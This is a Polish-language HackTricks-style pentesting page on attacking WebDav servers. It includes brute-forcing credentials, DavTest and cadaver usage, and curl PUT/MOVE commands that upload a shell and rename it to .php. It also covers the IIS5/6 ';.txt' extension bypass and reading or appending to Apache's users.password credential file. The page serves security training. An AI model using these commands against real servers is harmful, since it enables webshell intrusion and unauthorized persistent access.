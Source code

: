 # WebDav

{{#include ../../banners/hacktricks-training.md}}

Kiedy mamy do czynienia z **serwerem HTTP z włączonym WebDav**, możliwe jest **manipulowanie plikami**, jeśli posiadasz odpowiednie **poświadczenia**, zazwyczaj weryfikowane przez **HTTP Basic Authentication**. Uzyskanie kontroli nad takim serwerem często wiąże się z **przesyłaniem i uruchamianiem webshella**.

Dostęp do serwera WebDav zazwyczaj wymaga **ważnych poświadczeń**, a [**bruteforce WebDav**](../../generic-hacking/brute-force.md#http-basic-auth) jest powszechną metodą ich zdobycia.

Aby obejść ograniczenia dotyczące przesyłania plików, szczególnie te uniemożliwiające wykonywanie skryptów po stronie serwera, możesz:

- **Przesyłać** pliki z **rozszerzeniami wykonywalnymi** bezpośrednio, jeśli nie są ograniczone.
- **Zmień nazwę** przesyłanych plików niewykonywalnych (jak .txt) na rozszerzenie wykonywalne.
- **Kopiować** przesyłane pliki niewykonywalne, zmieniając ich rozszerzenie na takie, które jest wykonywalne.

## DavTest

**Davtest** próbuje **przesłać kilka plików z różnymi rozszerzeniami** i **sprawdza**, czy rozszerzenie jest **wykonywane**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

To nie oznacza, że **rozszerzenia .txt** i **.html są wykonywane**. To oznacza, że możesz **uzyskać dostęp do tych plików** przez sieć.

## Cadaver

Możesz użyć tego narzędzia, aby **połączyć się z serwerem WebDav** i wykonać akcje (takie jak **przesyłanie**, **przenoszenie** lub **usuwanie**) **ręcznie**.
```
cadaver <IP>
```
## Żądanie PUT
```
curl -T 'shell.txt' 'http://$ip'
```
## Żądanie MOVE
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav Vulnerability

Ta luka jest bardzo interesująca. **WebDav** **nie pozwala** na **przesyłanie** ani **zmienianie nazw** plików z rozszerzeniem **.asp**. Ale możesz **obejść** to, **dodając** na końcu nazwy **";.txt"** i plik będzie **wykonywany** tak, jakby był plikiem .asp (możesz również **użyć ".html" zamiast ".txt"**, ale **NIE zapomnij o ";"**).

Następnie możesz **przesłać** swój shell jako plik ".**txt"** i **skopiować/przenieść go do pliku ".asp;.txt"**. Uzyskując dostęp do tego pliku przez serwer WWW, zostanie on **wykonany** (cadaver powie, że akcja przeniesienia nie powiodła się, ale tak nie jest).

![](<../../images/image (1092).png>)

## Post credentials

Jeśli Webdav używał serwera Apache, powinieneś sprawdzić skonfigurowane witryny w Apache. Zwykle:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

Wewnątrz możesz znaleźć coś takiego:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Jak widać, są pliki z ważnymi **credentials** dla serwera **webdav**:
```
/etc/apache2/users.password
```
Wewnątrz tego typu plików znajdziesz **nazwa użytkownika** oraz **hash** hasła. To są dane uwierzytelniające, które serwer webdav używa do autoryzacji użytkowników.

Możesz spróbować je **złamać**, lub **dodać więcej**, jeśli z jakiegoś powodu chcesz **uzyskać dostęp** do serwera **webdav**:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Aby sprawdzić, czy nowe dane uwierzytelniające działają, możesz zrobić:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Odniesienia

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
